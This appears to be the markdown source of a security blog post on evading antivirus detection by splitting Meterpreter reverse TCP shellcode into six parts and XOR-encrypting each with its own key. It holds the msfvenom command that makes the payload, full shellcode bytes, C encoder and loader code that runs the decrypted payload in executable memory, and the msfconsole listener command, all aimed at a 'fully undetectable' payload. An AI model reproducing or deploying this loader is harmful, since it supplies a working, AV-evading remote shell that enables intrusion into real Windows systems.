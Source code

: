 ```yaml
---
layout: post
title: Antivirus Evasion - Divide and XOR
subtitle: Only one? But Works.
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [evasion, security]
---
```

Ahhh! After our defeat in the last battle of making a FUD payload, we meet here again (Pss. We still reduced the detection from 13 to 7).

If you haven't read those articles, go through it at [Antivirus Evasion - XOR Encryption](https://mandarnaik016.github.io/2024-03-24-antivirus-evasion-using-xor-encryption/).

Unlike last time, we were using a shellcode that runs **calc.exe** after XOR encryption; this time things are getting pretty serious. We will be using a reverse TCP shellcode and the same encoding scheme in a different way.

![cat one man army](../assets/img/evasion/divide-xor/army-ready.webp)

The plan is below. Go through it.

![XOR encode](../assets/img/evasion/divide-xor/xor-encode.webp)

![XOR decode](../assets/img/evasion/divide-xor/xor-decode.webp)

This time we will use the divide and XOR methods. We will divide the shell code into six equal parts and XOR each part with a different key. Then we will perform the reverse operation, i.e., we will perform the XOR operation on the XORed parts with their respective keys.

Generate a shellcode using the below command.
~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=6210 -b "\x00\x04\xA0" -f c -e x64/xor -i 6 -o "shell.c"
~~~

![msfvenom shellcode command](../assets/img/evasion/divide-xor/msfvenom-shellcode-command.webp)

We are using a encoder here with 6 iterations. Feel free to customize it according to your needs.

The below template is used to perform divide and XOR operation.

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void divideAndXOR(char buf[], int buflen, int keys[], int numKeys, char *parts[]) {
    int partSize = buflen / numKeys;
    for (int i = 0; i < numKeys; i++) {
        for (int j = 0; j < partSize; j++) {
            parts[i][j] = buf[i * partSize + j] ^ keys[i];
        }
        parts[i][partSize] = '\0'; // Null-terminate the string
    }
}

int main() {
    char buf[] = "\x48\x31\xc9\x48\x81\xe9\xa7\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x39\xa6\xe5\x28\x42\xff\x8f\xad\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x71\x97\x2c\x60\xc3\x16\x23\x52\xc6\x59\xad\xa5\x47\x10\x70\x52\xc6\xee\x5e\xe4\xcd\x0c\x2e\xd4\xc5\xe5\x34\x60\x73\xa7\xa8\xe5\x14\x5e\x1a\xd7\xbd\x1d\x7b\x29\x87\x9c\x0c\xd0\x57\x0d\xa1\x9e\x49\x1d\xc9\x54\x51\x43\xa1\x9e\xfe\xee\x6f\x94\x48\x61\xd5\xc5\xf5\x69\x0c\x60\xe6\x9b\x16\x4c\x4e\xaa\xbb\xae\x5c\x48\x3d\x95\x89\xc0\x4e\x1c\x4b\x7f\x8a\x5b\x08\x05\xca\x1a\x02\x7f\x8a\xec\xfb\x1a\x72\x96\x17\xef\xc6\x8a\xd0\xc0\xfe\xad\xda\xc8\x58\x5c\xbf\x77\x30\x17\x09\x5a\xf9\x0e\xe2\x66\x95\x60\x92\xed\x37\x8f\x27\xe2\x93\x24\x92\xed\x80\x7c\x3a\x17\x39\xec\x76\x0c\xe4\xd6\xe2\xd6\x24\xfc\x25\x3f\x30\x38\x55\x18\x9e\x2f\xb5\xd3\x44\xb8\x30\x10\x90\x35\x02\x1d\xc5\x7d\xb4\x16\xaf\x35\x02\xaa\x36\x07\x6a\x32\xc5\xe8\x78\xa9\x0f\xb8\x80\xa1\x77\x82\xd0\x1a\x72\x0f\x4e\x1b\xa4\xc1\x6e\xaa\xfc\x22\xdc\x7e\xd2\x3d\x26\x68\x49\x93\x64\xe0\x9a\x0c\xf4\x78\x4e\xb7\x7c\x39\x80\x5d\x6e\xa2\x4a\xca\x7c\x39\x80\x1d\x6e\xa2\x6a\x82\x79\x83\x1b\x75\x29\x9e\x52\x98\x7c\x83\x12\x91\x1a\x48\x64\xd0\x18\x92\x93\xfc\xef\x24\x59\xd3\xf5\x50\x3f\x6f\x67\x78\x50\x59\x66\x92\x59\x7f\x1a\x61\x19\x02\x52\x33\xaa\x25\x2d\x2b\x17\x57\x46\xb2\xd2\x3d\xad\xa9\x90\xd2\x34\xb2\x9a\xb8\xe6\x5d\x7f\x9a\x35\x62\x59\x75\x3e\x6d\x93\x92\x14\xe2\x9b\x3c\xf6\xca\x4e\x9a\xcb\x7b\x93\xb6\x12\xa1\x55\xe3\xfd\xfa\xd3\xeb\x6e\x18\xd8\x93\xf5\x7b\xdf\x91\x67\x28\xd9\xea\xd4\xc7\x23\x71\x25\x65\x3c\xda\x71\x8b\x03\x48\xfe\x71\x5c\x59\x74\x96\x9b\x3c\xf6\x4f\x59\x59\x38\xfa\x96\xb6\x66\x35\x51\xd3\xe4\xf3\x59\x39\xae\x61\x19\x02\x75\xea\x93\x65\x78\x70\x42\x93\x6c\xf3\x8b\x7c\x7c\x61\x9b\x3e\x14\xf3\x80\xc2\xc6\x71\x59\x8b\x6e\xfa\x59\x2f\xcf\x62\xe7\x2d\xcb\xef\x9b\x83\x51\x5a\x2a\x8d\x07\x80\xd2\x3d\x67\x7f\x51\x5b\xd2\xfa\x53\xd1\x86\x28\x18\xd2\x7d\x3b\x37\x74\x9a\x2b\x18\xca\x76\x72\x7a\x3c\x20\x68\x4c\x9b\xbd\x56\x9e\xb4\xd7\x68\xa2\x9e\x43\x94\xd5\xc2\xf3\x65\x91\x38\x5c\xb3\xd3\x3d\x26\x70\x59\x68\x1d\x32\xb9\x3d\xd9\xfc\x72\xd8\x75\xec\x82\x6d\x6b\x18\xd1\x9f\x05\x72\x9a\xc2\xe6\x61\x91\x10\x7c\x4d\x12\x75\xaf\xe8\x59\x68\xde\xbd\x0d\xdd\xd9\xfc\x50\x5b\xf3\xd8\xc2\x7c\x7e\x65\x91\x30\x7c\x3b\x2b\x7c\x9c\xb0\xbd\xa6\x55\x4d\x07\xb8\xe6\x5d\x12\x9b\xcb\x7c\xa7\xd8\xce\xba\x18\xd2\x34\xfa\x51\xd1\x36\x61\x91\x30\x79\x83\x1b\x57\x22\x68\x40\x9a\xbd\x4b\x93\x87\x24\xf0\xd0\x8d\xcb\x67\x51\xc5\x26\x57\x4d\x9a\xb7\x76\xf2\x63\xaf\xdf\x72\x92\x75\xeb\xba\x3d\x36\x29\x18\x93\x6c\xfa\x5b\xcf\x6e\x18\xd1\x93\x8e\xea\x76\x6e\xc3\xd6\xcd\x9a\xbd\x71\x9b\xb4\xe1\x64\x29\x1b\x7d\x3b\x22\x75\xaf\xf3\x50\x5b\xcd\xf3\x68\x3f\xff\xe1\x47\x2d\xe1\x31\x2a\x3d\x5b\x01\x40\x93\x63\xeb\xba\x3d\x66\x29\x18\x93\x6c\xd8\xd2\x67\x67\x93\x13\xfd\x3b\x82\x2d\xe8\x71\x70\x59\x68\x41\xdc\x9f\x5c\xd9\xfc\x51\x2d\xfa\x5b\xee\xc2\xd9\xd6\x50\xd3\xf7\xfa\xfb\xfb\x6e\xac\xee\xa7\x80\xf3\x2d\xda\x7e\x43\x18\x8b\x7d\x75\x10\xcd\x93\x8b\x4e\x2d\xe1\xb2\xd2\xca\x6d\x80\x5e\xad"; // Replace shellcode
    int keys[] = {0x0C, 0x04, 0x08, 0x0B, 0x01, 0x09}; // keys For XOR
    int buflen = strlen(buf);
    printf("Buf Length: %d\n", buflen);
    int numKeys = sizeof(keys) / sizeof(keys[0]);
    char *parts[numKeys];

    for (int i = 0; i < numKeys; i++) {
        parts[i] = malloc((buflen / numKeys) + 1); // +1 for null-terminator
    }

    divideAndXOR(buf, buflen, keys, numKeys, parts);

    for (int i = 0; i < numKeys; i++) {
        printf("\"", i + 1);
        for (int j = 0; j < buflen / numKeys; j++) {
            printf("\\x%02x", (unsigned char)parts[i][j]);
        }
        printf("\",\n");
    }

    for (int i = 0; i < numKeys; i++) {
        free(parts[i]);
    }

    return 0;
}
~~~

{: .box-note}
**NOTE:** Replace only the shellcode as single line do not include unnecessary comma and new lines.

After we compile the above C lang code we get respective XORed parts along with buf length.


![XORed parts](../assets/img/evasion/divide-xor/xored-parts.webp)

Replace the buf length and XORed parts in below template

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

void inverseXOR(char *parts[], int buflen, int keys[], int numKeys, char *result)
{
    int partSize = buflen / numKeys;
    for (int i = 0; i < numKeys; i++)
    {
        for (int j = 0; j < partSize; j++)
        {
            result[i * partSize + j] = parts[i][j] ^ keys[i];
        }
    }
    result[buflen] = '\0'; // Null-terminate the string
}

int main()
{
    char *parts[] = {
        "\x44\x3d\xc5\x44\x8d\xe5\xab\xf3\xf3\xf3\x44\x81\x09\xe3\xf3\xf3\xf3\x44\xb7\x35\xaa\xe9\x24\x4e\xf3\x83\xa1\x44\x3d\x54\x2b\x44\x21\xf4\xf3\xf3\xf3\xee\xf8\x7d\x9b\x20\x6c\xcf\x1a\x2f\x5e\xca\x55\xa1\xa9\x4b\x1c\x7c\x5e\xca\xe2\x52\xe8\xc1\x00\x22\xd8\xc9\xe9\x38\x6c\x7f\xab\xa4\xe9\x18\x52\x16\xdb\xb1\x11\x77\x25\x8b\x90\x00\xdc\x5b\x01\xad\x92\x45\x11\xc5\x58\x5d\x4f\xad\x92\xf2\xe2\x63\x98\x44\x6d\xd9\xc9\xf9\x65\x00\x6c\xea\x97\x1a\x40\x42\xa6\xb7\xa2\x50\x44\x31\x99\x85\xcc\x42\x10\x47\x73",
        "\x8e\x5f\x0c\x01\xce\x1e\x06\x7b\x8e\xe8\xff\x1e\x76\x92\x13\xeb\xc2\x8e\xd4\xc4\xfa\xa9\xde\xcc\x5c\x58\xbb\x73\x34\x13\x0d\x5e\xfd\x0a\xe6\x62\x91\x64\x96\xe9\x33\x8b\x23\xe6\x97\x20\x96\xe9\x84\x78\x3e\x13\x3d\xe8\x72\x08\xe0\xd2\xe6\xd2\x20\xf8\x21\x3b\x34\x3c\x51\x1c\x9a\x2b\xb1\xd7\x40\xbc\x34\x14\x94\x31\x06\x19\xc1\x79\xb0\x12\xab\x31\x06\xae\x32\x03\x6e\x36\xc1\xec\x7c\xad\x0b\xbc\x84\xa5\x73\x86\xd4\x1e\x76\x0b\x4a\x1f\xa0\xc5\x6a\xae\xf8\x26\xd8\x7a\xd6\x39\x22\x6c\x4d\x97\x60\xe4\x9e",
        "\x04\xfc\x70\x46\xbf\x74\x31\x88\x55\x66\xaa\x42\xc2\x74\x31\x88\x15\x66\xaa\x62\x8a\x71\x8b\x13\x7d\x21\x96\x5a\x90\x74\x8b\x1a\x99\x12\x40\x6c\xd8\x10\x9a\x9b\xf4\xe7\x2c\x51\xdb\xfd\x58\x37\x67\x6f\x70\x58\x51\x6e\x9a\x51\x77\x12\x69\x11\x0a\x5a\x3b\xa2\x2d\x25\x23\x1f\x5f\x4e\xba\xda\x35\xa5\xa1\x98\xda\x3c\xba\x92\xb0\xee\x55\x77\x92\x3d\x6a\x51\x7d\x36\x65\x9b\x9a\x1c\xea\x93\x34\xfe\xc2\x46\x92\xc3\x73\x9b\xbe\x1a\xa9\x5d\xeb\xf5\xf2\xdb\xe3\x66\x10\xd0\x9b\xfd\x73\xd7\x99\x6f\x20\xd1\xe2",
        "\xdf\xcc\x28\x7a\x2e\x6e\x37\xd1\x7a\x80\x08\x43\xf5\x7a\x57\x52\x7f\x9d\x90\x37\xfd\x44\x52\x52\x33\xf1\x9d\xbd\x6d\x3e\x5a\xd8\xef\xf8\x52\x32\xa5\x6a\x12\x09\x7e\xe1\x98\x6e\x73\x7b\x49\x98\x67\xf8\x80\x77\x77\x6a\x90\x35\x1f\xf8\x8b\xc9\xcd\x7a\x52\x80\x65\xf1\x52\x24\xc4\x69\xec\x26\xc0\xe4\x90\x88\x5a\x51\x21\x86\x0c\x8b\xd9\x36\x6c\x74\x5a\x50\xd9\xf1\x58\xda\x8d\x23\x13\xd9\x76\x30\x3c\x7f\x91\x20\x13\xc1\x7d\x79\x71\x37\x2b\x63\x47\x90\xb6\x5d\x95\xbf\xdc\x63\xa9\x95\x48\x9f\xde\xc9\xf8",
        "\x64\x90\x39\x5d\xb2\xd2\x3c\x27\x71\x58\x69\x1c\x33\xb8\x3c\xd8\xfd\x73\xd9\x74\xed\x83\x6c\x6a\x19\xd0\x9e\x04\x73\x9b\xc3\xe7\x60\x90\x11\x7d\x4c\x13\x74\xae\xe9\x58\x69\xdf\xbc\x0c\xdc\xd8\xfd\x51\x5a\xf2\xd9\xc3\x7d\x7f\x64\x90\x31\x7d\x3a\x2a\x7d\x9d\xb1\xbc\xa7\x54\x4c\x06\xb9\xe7\x5c\x13\x9a\xca\x7d\xa6\xd9\xcf\xbb\x19\xd3\x35\xfb\x50\xd0\x37\x60\x90\x31\x78\x82\x1a\x56\x23\x69\x41\x9b\xbc\x4a\x92\x86\x25\xf1\xd1\x8c\xca\x66\x50\xc4\x27\x56\x4c\x9b\xb6\x77\xf3\x62\xae\xde\x73\x93\x74\xea",
        "\xb3\x34\x3f\x20\x11\x9a\x65\xf3\x52\xc6\x67\x11\xd8\x9a\x87\xe3\x7f\x67\xca\xdf\xc4\x93\xb4\x78\x92\xbd\xe8\x6d\x20\x12\x74\x32\x2b\x7c\xa6\xfa\x59\x52\xc4\xfa\x61\x36\xf6\xe8\x4e\x24\xe8\x38\x23\x34\x52\x08\x49\x9a\x6a\xe2\xb3\x34\x6f\x20\x11\x9a\x65\xd1\xdb\x6e\x6e\x9a\x1a\xf4\x32\x8b\x24\xe1\x78\x79\x50\x61\x48\xd5\x96\x55\xd0\xf5\x58\x24\xf3\x52\xe7\xcb\xd0\xdf\x59\xda\xfe\xf3\xf2\xf2\x67\xa5\xe7\xae\x89\xfa\x24\xd3\x77\x4a\x11\x82\x74\x7c\x19\xc4\x9a\x82\x47\x24\xe8\xbb\xdb\xc3\x64\x89\x57"}; // Replace XORed Parts In This Array
    int buflen = 751; // Replace Buf Length
    int keys[] = {0x0C, 0x04, 0x08, 0x0B, 0x01, 0x09}; // Same Keys
    int numKeys = sizeof(keys) / sizeof(keys[0]);
    char result[buflen + 1]; // +1 for null-terminator

    inverseXOR(parts, buflen, keys, numKeys, result);

    void *exec = VirtualAlloc(0, sizeof result, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, result, sizeof result);
    ((void (*)())exec)();

    return 0;
}
~~~

After compiling the program lets check the result

Open a listener using below command
~~~
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.6; set lport 6210; exploit"
~~~

Before execution
![msfconsole listener](../assets/img/evasion/divide-xor/msfconsole-listener.webp)

After execution
![final xored working](../assets/img/evasion/divide-xor/final-xored-working.webp)

![successful listener](../assets/img/evasion/divide-xor/successful-listener.webp)

Lets check some commads

![command working](../assets/img/evasion/divide-xor/command-working.webp)

But sadly we were only able to reduce the detection by only 1, check at [kleenscan](https://kleenscan.com/scan_result/bc961af001b60d00f1322ffe4212351febc59cf07a475fdb09b5d3761d07f3a5).

![antivirus detection](../assets/img/evasion/divide-xor/antivirus-detection.webp)

Hope for the best and we will come back stronger with an inevitable method to make payload FUD.

![cat army](../assets/img/evasion/divide-xor/cat-army.webp)